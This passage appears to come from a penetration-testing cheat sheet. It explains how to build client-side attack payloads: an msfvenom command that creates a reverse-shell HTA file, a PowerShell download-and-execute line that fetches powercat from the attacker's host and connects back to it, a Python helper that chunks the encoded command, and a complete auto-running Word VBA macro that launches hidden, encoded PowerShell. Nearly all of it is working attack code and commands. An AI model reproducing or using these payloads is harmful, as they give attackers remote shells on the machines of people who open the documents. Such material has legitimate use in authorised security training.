 **Create a better payload with [msfvenom from the Metasploit framework]([https://github.com/rapid7/metasploit-framework/blob/master/msfvenom](https://github.com/rapid7/metasploit-framework))**<br/>
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh -o /var/www/html/evil.hta

In evil.hta, the code will find the following command ::> `powershell.exe -nop -w hidden -e aQBmCgAWBJAG4AdAQAHQAcg...`

-nop: NoProfile
-w:   WindowStyle hidden
-e:   EncodedCommand
```

## Microsoft Office

**Microsoft Word Macro**: To exploit Microsoft Office we need to creare a doc in `.docm` or `.doc` format and use macros. An example of the creation of a macro to run a reverse shell is the following.

1. From your powershell, prepare the command encoded in base64
   ```
   $TEXT = "IEX(New-Object System.Net.WebClient).DownloadString('http://<LHOST>/powercat.ps1');powercat -c <LHOST> -p <LPORT> -e powershell"
   $ENCODED = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($TEXT))
   echo $ENCODED
   ```
2. Since VBA has a 255-character limit for literal strings, we have to split the command into multiple lines. You can do it with the following python script:
   ```python
   import sys
   str = "powershell.exe -nop -w hidden -e " + sys.argv[1]
   n = 50
   for i in range(0, len(str), n):
   	print ("Str = Str + " + '"' + str[i:i+n] + '"')
   ```
3. This will be the final result:
   ```VBA
   Sub AutoOpen()
   	MyMacro
   End Sub
   
   Sub Document_Open()
   	MyMacro
   End Sub
   
   Sub MyMacro()
   	Dim Str As String
   	
   	Str = Str + "powershell.exe -nop -w hidden -e H4sIAAb/EF0CA7VWa"
   	Str = Str + "2+bSBT9nEj5D6iyBCjExombNpEqLdgmhhrHBD9iu9YKwwBTj4H"
   	Str = Str + "C4Jh0+9/3jg1pqqS77UqLbDGP+zz3zFz8PHIpjiMuu+1xX0+Oj"
   	Str = Str + "4ZO6mw4oRa/u5C4GnZvxaMjWK49GhfcB05YKEnSiTcOjpbX1+0"
   	Str = Str + "8TVFED/P6DaJKlqHNimCUCSL3FzcNUYrOblefkUu5r1ztz/oNi"
       	...
   	Str = Str + "aNrT16pQqhMQu61/7ZgO989DRWIMdw/Di/NWRyD0Jit8bW7V0f"
   	Str = Str + "T2HIOHYs1NZ76MooKEk7y5kGfqUvGvJkOWvJ9aOk0LYm5JYnzt"
   	Str = Str + "AUxkne+Miuwtq9HL2vyJW3j8hvLx/Q+z72j/s/hKKslRm/GL9x"
   	Str = Str + "4XfwvR3U586mIKgDRcoQYdG/joCJT2efexAVaD2fvmwT9XbnJ4"
   	Str = Str + "N4BPo5PhvyjwHqBILAAA="
   
   	CreateObject("Wscript.Shell").Run Str
   End Sub
   ```